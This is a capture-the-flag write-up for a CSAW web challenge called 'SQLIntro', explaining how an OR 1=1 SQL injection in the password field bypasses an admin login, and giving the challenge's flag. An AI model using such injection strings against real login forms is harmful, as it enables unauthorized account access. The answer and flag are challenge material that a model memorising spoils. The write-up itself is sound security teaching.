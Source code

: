 # SQLIntro
![Category Web](https://img.shields.io/badge/category-web-%232fc4e5.svg?longCache=true&style=popout)
![Score 50](https://img.shields.io/badge/score-50-brightgreen.svg?longCache=true&style=popout)
![195 solves](https://img.shields.io/badge/solves-195-%2317a2b8.svg?longCache=true&style=popout)

Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Can you log into the admin's account without knowing the password?
```
web.chal.csaw.io:10104
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database.  
The usage of the **OR** statement allows for additional logic in the SQL query.  Appending **OR 1=1** to a SQL query will make it always true since 1=1. <br />
[Read More](https://www.w3schools.com/sql/sql_injection.asp) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br />
![screenshot](page.PNG) <br />

Username:
> admin

Password:
> ' OR 1=1 --&nbsp;    

**Note** **```  --  ```** is an inline comment.  This ignores the rest of the SQL query.

## Flag
```
flag{j00'V3_pa223d_w38_s3cUri7Y_101}
```
